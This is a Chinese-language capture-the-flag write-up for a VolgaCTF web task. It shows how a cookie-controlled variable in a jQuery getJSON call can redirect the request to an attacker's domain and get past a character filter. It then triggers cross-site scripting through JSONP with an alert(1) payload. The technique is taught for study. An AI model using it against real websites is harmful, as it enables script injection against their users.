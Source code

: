 在一段代码中我们可以看出来api变量的赋值时通过cookie进行的，在第二段getUser函数中子域名是通过api变量去确认的

```
$.getJSON(`//${api}.volgactf-task.ru/user?guid=${guid}...
```

但是在可控制api变量的情况下我们实际上是可以控制请求的网址的。比如另api为exploit.lihuaiqiu.top?，那么实际请求的URL为https://exploit.lihuaiqiu.top?.volgactf-task.ru/user?guid=${guid} 即可控制请求的网址，但是在main.js有这样一个过滤函数

```
function replaceForbiden(str) {
    return str
        .replace(/[ !"#$%&Вґ()*+,\-\/:;<=>?@\[\\\]^_`{|}~]/g, "")
        .replace(/[^\x00-\x7F]/g, "?");
}
```

这里对?进行替空 并且对\x00-\x7F换成?..所以直接用\x00-\x7F间的字符bypass一下就可以了

最后我们需要通过getJSON函数来触发xss.简单的看一下介绍：

![GQfyDI.png](https://s1.ax1x.com/2020/03/31/GQfyDI.png)

本地简单试一下

在我们的网站放入xss语句

```
({"xss":alert(1)});
```

调用getJSON函数，成功触发xss

![GQhIJO.png](https://s1.ax1x.com/2020/03/31/GQhIJO.png)

所以这里我们只需要将参数控制为?即可xss，回到之前的代码

```javascript
    $.getJSON(`//${api}.volgactf-task.ru/user?guid=${guid}`, function(
        data
    ) {
        if (!data.success) {
            location.replace("/profile.html");
        } else {
            profile(data.user);
        }
    });
    
    //
    if (
        [
            "/",
            "/index.html",
            "/profile.html",
            "/report.php",
            "/editprofile.html"
        ].includes(location.pathname)
    ) {
        getUser(params.get("guid"));
    }

```
